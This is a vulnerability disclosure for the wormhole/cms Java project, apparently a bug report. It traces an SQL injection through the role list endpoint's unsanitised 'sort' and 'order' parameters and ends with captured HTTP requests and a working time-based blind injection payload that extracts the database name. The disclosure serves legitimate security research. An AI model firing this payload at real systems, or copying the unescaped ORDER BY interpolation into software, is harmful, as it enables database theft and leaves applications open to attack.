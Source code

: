 **BUG_Author:**

hadagaga

**Vendor:**

https://github.com/wormhole/cms

**Software:**

https://github.com/wormhole/cms

**Vulnerability File:**

src/main/resources/mapper/RoleMapper.xml

```xml
    <select id="selectWithQuery" resultMap="baseMap">
        select * from `role`
        <include refid="where"/>
        <if test="sortWrapper != null and sortWrapper.size() > 0">
            order by
            <foreach collection="sortWrapper.entrySet()" index="s" item="o" separator=",">
                `${s}` ${o}
            </foreach>
        </if>
        <if test="offset != null and limit != null">
            limit #{offset}, #{limit}
        </if>
    </select>
```

​	Here we can see that S and O are suspicious injection points, and we can trace back to find that this select statement is called in multiple places. After the audit, it is determined that there is a call in the following method, and the parameters s and o are controllable, and other methods do not use the definition of the order by statement, although where is used, the column parameter is uncontrollable, so there is no SQL injection.

```java
    @Override
    @Transactional(rollbackFor = Exception.class)
    public PageResponse<RoleDTO> findByPage(Integer page, Integer limit, String sort, String order, String key) {
        Set<String> roleIds = new HashSet<>();

        QueryWrapperBuilder builder = new QueryWrapperBuilder();
        builder.sort("builtin", "desc");
        if (StringUtils.isEmpty(sort) || StringUtils.isEmpty(order)) {
            builder.sort("name", "asc");
        } else {
            builder.sort(sort, order);
        }
        builder.like(!StringUtils.isEmpty(key), key, Arrays.asList("name", "note"));
        builder.page((page - 1) * limit, limit);
        builder.in("id", new ArrayList<>(roleIds));
        QueryWrapper wrapper = builder.build();

        List<Role> roles = roleDAO.selectWithQuery(wrapper);
        Integer total = roleDAO.countWithQuery(wrapper);

        List<RoleDTO> dtos = new ArrayList<>();
        for (Role role : roles) {
            RoleDTO dto = new RoleDTO();
            BeanUtils.copyProperties(role, dto);
            dtos.add(dto);
        }
        return new PageResponse<>(total, dtos);
    }
```

​	After auditing, we found that in this method, the sort and order parameters are put into the builder object in this code block, and there is no processing to prevent SQL injection before that, and these two parameters are the o and s in the xml document, so there is a SQL injection here.

```java
if (StringUtils.isEmpty(sort) || StringUtils.isEmpty(order)) {
    builder.sort("name", "asc");
} else {
    builder.sort(sort, order);
}
```

​	This method is called by the following controller:

```java
    @GetMapping(value = "/list")
    public ResponseEntity<Result<PageResponse<RoleDTO>>> queryPage(
            @RequestParam(value = "page") @Min(value = 1, message = "page不能小于1") Integer page,
            @RequestParam(value = "limit") @Min(value = 1, message = "limit不能小于1") Integer limit,
            @RequestParam(value = "sort", required = false) String sort,
            @RequestParam(value = "order", required = false) String order,
            @RequestParam(value = "key", required = false) String key) {
        PageResponse<RoleDTO> response = roleService.findByPage(page, limit, sort, order, key);
        return ResponseEntity.status(HttpStatus.OK).body(Result.success(response));
    }
```

​	It can be seen that there is no processing here, and the parameters are passed directly into the findByPage method. Then we locate the role management module of the front-end, capture the packets after access, and capture the following packets.

```http
GET /auth/role/list?page=1&limit=10 HTTP/1.1
Host: 172.23.192.1
Cookie: JSESSIONID=FDA8E97A658F3DE8725A3002F1A847E6
Sec-Ch-Ua-Platform: "Windows"
Authorization: Bearer eyJ1aWQiOiIzYTEzOGJhYS0yYWZhLTQwZWMtOGVlMy03NjEyNTg2Y2UzZmIiLCJ0cyI6IjE3MzQzMTM2MDYyNjcifQ==.MGE2M2JlZTE2MmViNDVjYjY4ZTc1NDk2ZjQzOWVlZmI=
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: application/json, text/plain, */*
Sec-Ch-Ua: "Microsoft Edge";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://172.23.192.1/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=1, i
Connection: close
```

​	Construct the parameters sort and order

```http
GET /auth/role/list?page=1&limit=10&sort=builtin&order=desc HTTP/1.1
Host: 172.23.192.1
Cookie: JSESSIONID=FDA8E97A658F3DE8725A3002F1A847E6
Sec-Ch-Ua-Platform: "Windows"
Authorization: Bearer eyJ1aWQiOiIzYTEzOGJhYS0yYWZhLTQwZWMtOGVlMy03NjEyNTg2Y2UzZmIiLCJ0cyI6IjE3MzQzMTM2MDYyNjcifQ==.MGE2M2JlZTE2MmViNDVjYjY4ZTc1NDk2ZjQzOWVlZmI=
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: application/json, text/plain, */*
Sec-Ch-Ua: "Microsoft Edge";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://172.23.192.1/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=1, i
Connection: close
```

​	Based on the definition in the XML document, we construct the following payload:

sort:

```sql
builtin%60,if(length((select%20database()))=1,sleep(0.5),1),%60builtin
```

order:

```sql
desc
```

​	The following data is obtained by blasting using the BP blasting module:

![image-20241216113807251](img/image-20241216113807251.png)

​	After processing, the library name is obtained:

![image-20241216113932096](img/image-20241216113932096.png)